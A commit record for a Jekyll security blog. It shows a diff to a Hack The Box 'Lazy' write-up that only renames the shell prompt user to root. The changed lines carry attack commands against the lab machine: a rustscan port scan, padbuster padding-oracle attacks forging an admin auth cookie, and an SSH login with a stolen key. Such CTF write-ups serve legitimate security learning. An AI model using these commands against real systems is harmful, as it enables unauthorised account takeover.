

Before and after one commit to darksec1337/darksec1337.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide and 900 px high, scrolled down 574 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; the list of posts is cut into pages by our own code; comment, search, counter and statistics services are not loaded.

Commit message:
Update 2020-10-16-Lazy-Writeup.md

````diff
--- a/_posts/2020-10-16-Lazy-Writeup.md
+++ b/_posts/2020-10-16-Lazy-Writeup.md
@@ -12,7 +12,7 @@ tags: [path_highjacking, oracle_padding_attack, crypto] # add tag
 ### Enumration
 
 ```bash
-argenestel@parrot  ~/Desktop/hackthebox/lazy  rustscan  10.10.10.18
+root@parrot  ~/Desktop/hackthebox/lazy  rustscan  10.10.10.18
 .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
 | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
 | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
@@ -120,7 +120,7 @@ so we found out about oracle padding attack
 using padbuster to get the auth cookie
 
 ```bash
-✘ argenestel@parrot  ~/Desktop/hackthebox/lazy  padbuster http://10.10.10.18/login.php 1hcGpO3BllzMF4pB9EoWPek8Ar%2FcCi19 8 --cookie auth=1hcGpO3BllzMF4pB9EoWPek8Ar%2FcCi19 --encoding 0
+✘ root@parrot  ~/Desktop/hackthebox/lazy  padbuster http://10.10.10.18/login.php 1hcGpO3BllzMF4pB9EoWPek8Ar%2FcCi19 8 --cookie auth=1hcGpO3BllzMF4pB9EoWPek8Ar%2FcCi19 --encoding 0
 
 +-------------------------------------------+
 | PadBuster - v0.3.3                        |
@@ -175,7 +175,7 @@ Use of uninitialized value $plainTextBytes in concatenation (.) or string at /us
 ```
 
 ```bash
-✘ argenestel@parrot  ~/Desktop/hackthebox/lazy  padbuster http://10.10.10.18/login.php 1hcGpO3BllzMF4pB9EoWPek8Ar%2FcCi19 8 --cookie auth=1hcGpO3BllzMF4pB9EoWPek8Ar%2FcCi19 --encoding 0 -plaintext user=admin
+✘ root@parrot  ~/Desktop/hackthebox/lazy  padbuster http://10.10.10.18/login.php 1hcGpO3BllzMF4pB9EoWPek8Ar%2FcCi19 8 --cookie auth=1hcGpO3BllzMF4pB9EoWPek8Ar%2FcCi19 --encoding 0 -plaintext user=admin
 
 +-------------------------------------------+
 | PadBuster - v0.3.3                        |
@@ -249,7 +249,7 @@ so using this token we login as admin and grab sshkey of user.
 ### PrivEsc
 
 ```bash
-✘ argenestel@parrot  ~/Desktop/hackthebox/lazy  ssh -i mysshkeywithnamemitsos mitsos@10.10.10.18
+✘ root@parrot  ~/Desktop/hackthebox/lazy  ssh -i mysshkeywithnamemitsos mitsos@10.10.10.18
 load pubkey "mysshkeywithnamemitsos": invalid format
 The authenticity of host '10.10.10.18 (10.10.10.18)' can't be established.
 ECDSA key fingerprint is SHA256:OJ5DTyZUGZXEpX4BKFNTApa88gR/+w5vcNathKIPcWE.
````
